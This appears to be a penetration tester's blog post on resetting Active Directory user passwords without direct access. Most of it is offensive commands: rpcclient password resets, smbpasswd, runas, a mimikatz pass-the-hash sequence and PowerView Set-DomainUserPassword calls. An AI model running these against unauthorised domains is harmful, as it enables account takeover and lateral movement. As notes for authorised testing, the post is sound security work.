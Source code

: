 [back](/)

### Your password has expired

During penetration testing Active Directory you often encounter the need to change the password for domain users. How to do this if you do not have direct access to control? for example by winrm, rdp or wmi.

Here are some useful examples that I've collected as a result of my work:

Example 1: you have a domain user whose password has expired (or a temporary password has been set), in which case you will not be able to connect under the current user due to NLA (Network Level Authentication). By using the NetApi32 function you can easily change the password without a direct connection, in this article you will find the script: https://hinchley.net/articles/changing-your-expired-active-directory-password-via-powershell/

Example 2: you have a domain user with the "ForceChangePassword" attribute, in which case you do not need to know the current user's password and you can use the rpcclient utility as follows:

```
setuserinfo2 yourusername 23 'yourpassword'
```

![Image](/img/domain-user-password/1.png)
![Image](/img/domain-user-password/2.png)

![Image](/img/domain-user-password/3.png)

Example 3: you have a domain user with an expired password and access to the smb service, then you can change the password using smbpasswd like this:

```
smbpasswd -r HOST -U yourusername
```

Also, if you have an active account in the domain, you can run commands from the cmd/powershell console:

```
runas / netonly /U:yourusername@yourdomain powershell
```

this way you will open a session as a domain user

![Image](/img/domain-user-password/5.png)

or using mimikatz having previously generated the NTLM hash:

```
echo -n "password" | iconv -t UTF-16LE | openssl md4
privilege :: debug
token :: elevate
pth /user:yourusername /domain:yourdomain / ntlm: NTLM /run:"powershell.exe"
```

![Image](/img/domain-user-password/4.png)

Then, in an open session use PowerView.ps1 (if you need to change the password using the previous one)

```
$ SecPassword = ConvertTo-SecureString 'yourpassword' -AsPlainText -Force
$ Cred = New-Object System.Management.Automation.PSCredential ('yourdomain\yourusername', $SecPassword)
$ UserPassword = ConvertTo-SecureString 'yourpassword' -AsPlainText -Force
Set-DomainUserPassword -Identity yourusername -AccountPassword $UserPassword -Credential $Cred
```

or (if you need to change the password without knowing the previous one, if the ForceChangePassword attribute is present)

```
$pw = Convertto-securestring 'yourpassword' -asplaintext -force
Set-DomainUserPassword -Domain yourdomain -Identity 'CN=yourusername,CN=Users,DC=yourdomain,DC=yourdomain' -accountpassword $pw
```

<div id="disqus_thread"></div>
<script>
(function() { // DON'T EDIT BELOW THIS LINE
var d = document, s = d.createElement('script');
s.src = 'https://hackitfaster-hopto-org.disqus.com/embed.js';
s.setAttribute('data-timestamp', +new Date());
(d.head || d.body).appendChild(s);
})();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript>

[back](/)


